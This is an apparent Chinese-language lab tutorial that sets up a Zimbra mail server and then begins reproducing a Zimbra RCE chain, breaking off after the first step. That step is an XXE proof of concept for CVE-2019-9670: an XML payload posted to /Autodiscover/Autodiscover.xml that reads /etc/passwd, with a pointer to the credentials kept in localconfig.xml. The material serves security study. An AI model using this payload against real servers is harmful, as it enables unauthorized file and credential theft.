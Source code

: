 ```
Address unconfigured (\*\*) items  (? - help) 6
```

选择 “6”，然后会出现

```
Store configuration

   1) Status:                                  Enabled                       
   2) Create Admin User:                       yes                           
   3) Admin user to create:                    admin@mail.test.local     
  .....                       
  24) Install UI (zimbra,zimbraAdmin webapps): yes 
  
Select, or 'r' for previous menu \[r\] 4
```

选择 “4”，然后输入密码即可，之后的操作如下：

```
Main menu

   1) Common Configuration:                                                  
   .......                                                      
   q) Quit                                    

\*\*\* CONFIGURATION COMPLETE - press 'a' to apply
Select from menu, or press 'a' to apply config (? - help) a
Save configuration data to a file? \[Yes\] yes
Save config in file: \[/opt/zimbra/config.11647\] 
Saving config in /opt/zimbra/config.11647...done.
The system will be modified - continue? \[No\] yes
```

最后，你需要等待 Zimbra 配置完成。使用 su - zimbra 命令切换用户，zmcontrol status 查看 zimbra 服务器状态

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxVmC2W5rphxyvbmVS42YXFhibIuOZSQkkG7NY1gmgCLeQq5ogdO5UsEQ/640?wx_fmt=png)

接着访问 访问 IP:7071 端口，跳转 zimbra 管理页面 ，注意这个是需要使用 HTTPS 协议来访问

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBOI1SSibo2QR6gzdt9XBGKxNvH79UAqdreNa06YuBzS6WcSiblPHPQs1uwe5pgBnQyq85gZiaaIIkGg/640?wx_fmt=png)

zimbra RCE 漏洞靶机复现

Zimbra 的配置文件是在 **/conf/localconfig.xml** 这个文件里面的！里面有保存到一些配置信息的用户名和密码！

首先的话需要先验证是否有 CVE-2019-9670 XXE 漏洞，接着抓取到它的数据包，这里需要带入 cookie 的数据包，发到重放中之后修改为 POST 模式来进行数据发送，接着 URL 修改为 **/Autodiscover/Autodiscover.xml** 。并且修改 **Content-Type: application/xml**。接着带入 XML 的 POC

```
<!DOCTYPE xxe \[
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >\]>
 <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
      <EMailAddress>aaaaa</EMailAddress>
      <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
    </Request>
  </Autodiscover>
```

